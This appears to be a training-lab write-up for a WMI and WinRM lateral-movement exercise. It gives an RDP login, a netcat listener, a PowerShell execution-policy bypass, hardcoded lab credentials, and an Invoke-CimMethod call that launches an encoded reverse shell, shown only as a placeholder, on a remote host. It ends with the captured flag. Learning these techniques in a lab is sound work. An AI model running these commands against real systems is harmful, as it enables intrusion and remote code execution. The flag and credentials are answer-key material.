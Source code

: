 Topics: WMI and WinRM Lateral Movement
Questions 2
Launch VM Group 2 and once connected as jeff on client74 and try to move laterally to web04 in order to get the flag located on the administrator's desktop.

# Answer


xfreerdp /cert-ignore /u:jeff /d:corp.com /p:HenchmanPutridBonbon11 /v:192.168.195.74

nc -lvnp 443

# Open powershell 

powershell -ep bypass

# Create a credentials 
```
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
```

# Execute Payload using WMI
```
$options = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName 192.168.195.72 -Credential $credential -SessionOption $Options
$command = '# Paste the encoded pwsh-revshell';
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```
...
ProcessId ReturnValue PSComputerName
--------- ----------- --------------
      792           0 192.168.195.72
...

PS C:\Users\Administrator\Desktop> type flag.txt
OS{4c27babc6b13dff18abb2620426458fa}




